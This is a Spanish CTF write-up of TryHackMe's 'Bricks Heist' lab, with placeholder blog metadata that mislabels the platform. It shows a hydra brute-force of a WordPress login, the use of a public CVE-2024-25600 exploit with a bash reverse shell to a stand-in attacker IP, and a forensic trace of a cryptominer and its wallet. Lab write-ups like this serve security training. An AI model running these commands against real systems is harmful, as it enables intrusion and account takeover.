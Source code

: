 ```yaml
---
title: "asfasf"
platform: "HTB"
publishedAt: 2025-05-29
cover: "/images/ctf/nota5-cover.webp"
preview: "brtbtbrtbrt"
tags: []
link: "Sin link"
toc:
  - text: "🕵️ Introducción"
    id: "introduccion"
  - text: "🔍 1. Escaneo inicial"
    id: "1-escaneo-inicial"
  - text: "🧱 2. Enumeración de WordPress"
    id: "2-enumeracion-de-wordpress"
  - text: "🔓 3. Acceso administrativo"
    id: "3-acceso-administrativo"
  - text: "💣 4. Exploiting CVE-2024-25600"
    id: "4-exploiting-cve-2024-25600"
  - text: "🐚 5. Post-explotación"
    id: "5-post-explotacion"
  - text: "🔍 6. Proceso y servicio sospechoso"
    id: "6-proceso-y-servicio-sospechoso"
  - text: "📄 7. Log del miner"
    id: "7-log-del-miner"
  - text: "💰 8. Wallet del miner"
    id: "8-wallet-del-miner"
  - text: "🕵️‍♂️ 9. Threat group"
    id: "9-threat-group"
  - text: "✅ Conclusión"
    id: "conclusion"
---
```


![image.png](/images/ctf/nota5-0.webp)


# 🧱 Bricks Heist – TryHackMe (Write-up)


[embed]()


## 🕵️ Introducción


Un sitio web WordPress fue comprometido. Nuestra misión: identificar el punto de entrada, recuperar acceso como administrador, detectar actividad maliciosa (minería), y rastrear al grupo de amenazas involucrado.


---


## 🔍 1. Escaneo inicial


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Servicios expuestos:

- 22: SSH
- 80: WebSockify (error 405)
- 443: WordPress 6.5
- 3306: MySQL (sin acceso)

---


## 🧱 2. Enumeración de WordPress

- Se detecta **tema activo: Bricks**
- Vulnerabilidad conocida: **CVE-2024-25600**
- Exploit público descargado desde GitHub

---


## 🔓 3. Acceso administrativo


Se obtuvo login con `administrator`, mediante fuerza bruta con `hydra`:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💣 4. Exploiting CVE-2024-25600


Se usó el script:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Ejemplo:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py \
  --url https://bricks.thm \
  --username administrator \
  --password TU_PASS \
  --cmd "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"
```


Se obtuvo **shell interactiva**.


---


## 🐚 5. Post-explotación


### Flag encontrada:


```plain text
css
CopyEdit
/var/www/html/650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 6. Proceso y servicio sospechoso


### Proceso:


```plain text
pgsql
CopyEdit
nm-inet-dialog
```


### Servicio malicioso:


```plain text
CopyEdit
ubuntu.service - TRYHACK3M
```


Verificado vía:


```shell
bash
CopyEdit
systemctl status ubuntu.service
```


---


## 📄 7. Log del miner


Log activo ubicado en:


```plain text
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


📌 **Respuesta (formato** **`xxxx.xxxx`****)**:


```plain text
pgsql
CopyEdit
inet.conf
```


---


## 💰 8. Wallet del miner


Del archivo `inet.conf`:


```plain text
text
CopyEdit
ID: WW1NeGNY...
```


Base64 → doble decode → wallet final:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


---


## 🕵️‍♂️ 9. Threat group


Wallet está asociada con el grupo de ransomware:


**LockBit**


(Confirmado por búsquedas OSINT y análisis de blockchain)


---


## ✅ Conclusión


Este CTF fue un excelente caso realista que combinó:

- Enumeración
- Explotación de CVE
- Análisis forense de logs y procesos
- Técnicas OSINT

Una gran práctica para pentesters y analistas de amenazas.

